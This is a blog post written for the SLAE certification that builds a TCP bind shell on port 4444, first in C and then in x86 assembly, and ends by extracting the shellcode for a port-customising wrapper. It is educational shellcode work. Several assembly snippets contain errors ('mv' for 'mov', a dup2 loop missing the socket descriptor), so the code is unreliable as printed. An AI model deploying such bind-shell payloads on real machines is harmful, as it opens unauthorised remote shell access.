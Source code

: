 ```yaml
---
layout: post
title: "SLAE: Custom TCP Bind shell"
excerpt: "created for completing the requirements of the SecurityTube Linux Assembly Expert certification"
date: 2020-06-15
header:
  teaser:
  teaser_home_page: true
classes: wide
categories:
  - SLAE
  - infosec
tags:
  - shellcode
  - assembly
---
```



#### This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert

_*all supporting code can be found [here](https://github.com/RawrRadioMouse/SLAE_study/tree/master/Assignment_1)*_

![slae32 class=thumbnail](/assets/images/SHELLCODING32.png)
Student ID: SLAE - 1532

This assignment will see us create and examine shellcode with a Bind TCP shell as the payload.

We start by retrieving a bind TCP shell written in C so that we can break it down to determine how we wil go about building our own shellcode:
```
#include <stdio.h> 
#include <sys/types.h> 
#include <sys/socket.h> 
#include <netinet/in.h> 

int socketfd; 
int socketid; 

struct sockaddr_in hostaddr; 

int main() { 
    //Create socket, which returns the file descriptor so we can interact with it
    socketfd = socket(PF_INET, SOCK_STREAM, 0); //here we specify that it is an ipv4 stream type of communication and protocol is 0 (TCP/IP)

    //Initialize sockaddr struct 
    hostaddr.sin_family = AF_INET; //address family set to AF_INET(which is ipv4)
    hostaddr.sin_port = htons(4444); //htons is neccesary so endianness does not reverse how the port is stored in memory, thus scrambling it
    hostaddr.sin_addr.s_addr = htonl(INADDR_ANY); //htonl is neccesary so endianness does not reverse how the address is stored in memory, thus scrambling it

    //Bind our socket as defined
    bind(socketfd, (struct sockaddr*) &hostaddr, sizeof(hostaddr)); 

    //Start Listening
    listen(socketfd, 2); 

    //Accept incoming connection 
    socketid = accept(socketfd, NULL, NULL); 

    //Create new file descriptors for stdin stdout and stderror, so the client shell will recieve these from our socket 
    dup2(socketid, 0); 
    dup2(socketid, 1); 
    dup2(socketid, 2); 

    //Use execve to excecute /bin/sh from within our program
    execve("//bin/sh", NULL, NULL); //extra slash is to ensure we have to 8bit values to push onto stack later on
} 
```

After looking at the above we know we will need to make use of the following syscalls and functions under socketcall:

* __NR_socketcall	  102
    * SYS_SOCKET 	1
    * SYS_BIND  	2
    * SYS_CONNECT	3
    * SYS_LISTEN 	4
    * SYS_ACCEPT 	5   
* __NR_dup		     41
* __NR_execve		   11

Now, the SYS_SOCKET function takes 3 args as per man page:

![socketcall](/assets/images1/SLAE_1/1.JPG)

The first arg, __domain__ will be set to AF_INET. As per our .c code, we already know what it represents (IPv4)
The second arg, __type__, will be set to SOCK_STREAM. Again we know what this does thanks to the breakdown of our .c code.
The third and final arg __protocol__ will be 0, as according to the man page this only changes under specific circumstances and at this point is beyond the scope of the exercise.

I ended up taking the easy route and using google to obtain these values, as this was the path of least resistance.
```
AF_INET		2 
SOCK_STREAM	1
```
To start converting to assembly we need to understand that syscalls get stored in EAX, with subsequent args going in EBX, ECX, EDX etc.
For socket call:
* syscall value obviously goes in al
* function type (socket, bind, listen etc) goes in bl
* args to function go in ecx.

We need to both zero out our registers with XOR, and place our values in the lowest possible register, example for setting up socketcall below:
```
    xor eax, eax ; we do this both to create a 0x0 value and get eax ready
    push eax ; push 0x0 as third arg
    push 0x1 ; for second arg, the value of SOCK_STREAM
    push 0x2 ; first arg is AF_INET, set address family to ipv4
    xor ecx, ecx ; clear out ecx
    mov ecx, esp ; move our arg values into ecx (place a pointer to these values with an address stored in ecx)
    mv al, 102   ; we move the socketcall syscall value into al, to avoid padding
    mv bl, 1     ; we set function to 1, which is the value of socket (this will change later on to accomodate accept, listen, bind etc)
    int 0x80 ; call system interrupt 
    mov esi, eax ; we store the returning value of our syscall for later use in other functions
```
We now move onto setting up the bind section of the shell.
A quick rundown of what we need to achieve here is:
* set sycall as socketcall again
* this time function will be 2 (SYS_BIND)
* we will need to reference the result of our previously executed syscall (now stored in esi)
* Specify listening address as 0.0.0.0 (all available)
* Specify the port value (/x11/x5C‬, then /x5C/x11 for little endian)
* Specify adress length

I ended up having to do some further research into setting the IP address, as per the man page for bind, the second arg is struct sockaddr, as per man 7 ip this means the address needs to consist of: sin_family, sin_port and sin_addr

![bind](/assets/images/SLAE_1/3.JPG)

![struct sockaddr](/assets/images/SLAE_1/2.JPG)

```
    xor ebx, ebx
    ;create struct sockaddr
    push ebx ; push 0x0 on for listening address
    push word 0x5C11 ; push on reversed value of 4444
    push 0x2 ; push value of AF_INET MAY NEED TO BE WORD??
    mov ecx, esp ; store our created sockaddr struc in ecx
    push 0x10 ; push length of address on (16) third arg
    push ecx ; push our created structure on as second arg
    push esi ; push created socket fd on as first arg
    mov ecx, esp ; move our values into ecx for the syscall
    mv bl, 2 ; we set function to 2, which is the value of bind
    xor eax, eax
    mv al, 102
    int 0x80
```

The next part of the code will set up a listener, man page excerpt below.

![listen](/assets/images/SLAE_1/4.JPG)

SO for the listener we need to provide the socket and backlog length, a simple arg that simply specifies the queue for pending connections.

```
    push 0x1 ; set backlog to 1 (arg 2)
    push esi ; push socket fd on (arg 1)
    mov ecx, esp ; mov the parameters required for listen into ecx for when we call the syscall
    mov bl, 0x4 ; listen function value
    mov al, 102
    int 0x80
```
Now we move onto the accept function.
As per man page, arguments will include our socket fd, struck sockaddr and addr length.

![accept](/assets/images/SLAE_1/5.JPG)

```
    push 0x10 ; length
    xor eax, eax
    push eax ; address
    push esi ; socket fd
    mov ecx, esp
    mov bl, 0x5 ; value for accept function
    mov al, 102
    int 0x80
```
The DUP syscall took me a long time to figure out, it was only after reviewing other students code multiple times I realised exactly what is needed, and it is a lot simpler than I initially thought.
Essentially all we need to use DUP2 for is to copy FD 0,1 and 2 from our OLD FD into a NEW FD. I created a loop as below:

![dup](/assets/images/SLAE_1/6.JPG)
```
    xor ecx,ecx

loop:
    mov al, 63 ; value for dup2
    int 0x80 ; call dup2, putting our zeroed value in
    inc ecx ; increase by 1
    cmp cl, 0x4 ; run through 0,1,2
    jne loop ; continue when it hits 3
```

All that is left to do is to spawn our shell, we do so with execve
```
    xor eax, eax
    push eax

    push 0x68732f2f
    push 0x6e69622f

    mov ebx, esp ; the null and //bin/sh get moved into ebx
    push eax ; push another null onto stack
    mov edx, esp ; move the null into edx
    push ebx ; the null and //bin/sh get pushed back onto stack
    mov ecx, esp ; they then get moved into ecx
    mov al, 11
    int 0x80
```
With all our pieces in place we compile our .nasm code and test it, to make sure that the next steps are not wasted on bad code (this was a good idea, as I realised I forgot to point the stack pointer to ecx in my accept section, which meant my program would just spawn /bin/sh locally xD)
After all this, we can see as below I was able to connect to the bind shell:

![start_bindlisten](/assets/images/SLAE_1/7.JPG)

![connect_to_shell](/assets/images/SLAE_1/9.JPG)

At this point I felt the urge to start enumerating and look for privesc, however I contained myself and continued with the exercise.
Using some [commandlinefu](https://www.commandlinefu.com/commands/view/6051/get-all-shellcode-on-binary-file-from-objdump) I extracted the raw shellcode from my confirmed working binary:
![connect_to_shell](/assets/images/SLAE_1/8.JPG)

We will now WRAP this assignment up by creating (read: stealing and modifying) a [python wrapper](https://github.com/RawrRadioMouse/SLAE_study/blob/master/Assignment_1/wrapper.py) that will allow us to customise the port.
We will take our shellcode from the previous step and use that as our template, the the \x11\x5c (4444) taken out.

A per screen below the script is both fool-proof and accurate.
![wrapper.py](/assets/images/SLAE_1/10.jpg)
